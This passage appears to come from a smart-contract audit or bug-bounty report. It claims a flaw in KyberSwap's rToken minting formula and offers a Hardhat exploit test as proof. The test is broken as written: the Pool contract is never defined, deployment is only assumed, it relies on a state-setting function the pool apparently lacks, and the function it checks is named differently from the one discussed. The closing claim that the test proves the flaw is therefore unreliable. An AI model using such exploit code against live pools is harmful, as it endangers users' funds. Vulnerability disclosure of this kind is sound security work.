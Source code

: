 6. **Real-world Impact:** In an actual deployment, **attackers would likely look for specific scenarios (like massive liquidity events or manipulated liquidity values) that allow them to adjust `baseL`, `reinvestL`, and `reinvestLLast` favorably to exploit the system.** The numbers used in this POC highlight the risk of the vulnerability, but **real-world numbers might differ based on pool behaviors and contract interactions.**

> **Hardhat script**

```javascript
const { ethers, waffle } = require("hardhat");
const { expect } = require("chai");

describe("KyberSwap Pool Exploit", function () {
  let Pool, pool, owner, attacker, token0, token1;
  const setupValues = {
    baseL: ethers.utils.parseEther("500"),
    totalSupply: ethers.utils.parseEther("1000"),
    reinvestL: ethers.utils.parseEther("950"),
    reinvestLLast: ethers.utils.parseEther("50"),
  };

  before(async () => {
    // Deploy the necessary contracts here like token0, token1, Pool etc.
    [owner, attacker] = await ethers.getSigners();

    // Let's assume you have deployed the pool and other contracts
    pool = await Pool.deploy(token0.address, token1.address);

    // Setup initial values
    await pool.setupValues(setupValues.baseL, setupValues.totalSupply, setupValues.reinvestL, setupValues.reinvestLLast);
  });

  it("Should exploit the pool", async () => {
    // First, the attacker get the pool to the initial state.

    // Then, the attacker exploits the vulnerability
    await pool.connect(attacker).burnRTokens(ethers.utils.parseEther("10"), false);

    // Check the balance or state after exploitation to prove the exploit
    const rMintQty = await pool.calculateRMintQty(setupValues.reinvestL, setupValues.reinvestLLast, setupValues.baseL, setupValues.totalSupply);

    // This value will likely be more than 20% of the totalSupply
    expect(rMintQty).to.gt(setupValues.totalSupply.mul(20).div(100));
  });
});
```

**It's evident from this PoC that the formula used in `calcrMintQty` allows for situations where the intended 20% limit can be surpassed**, posing a severe risk to the KyberSwap platform and its users.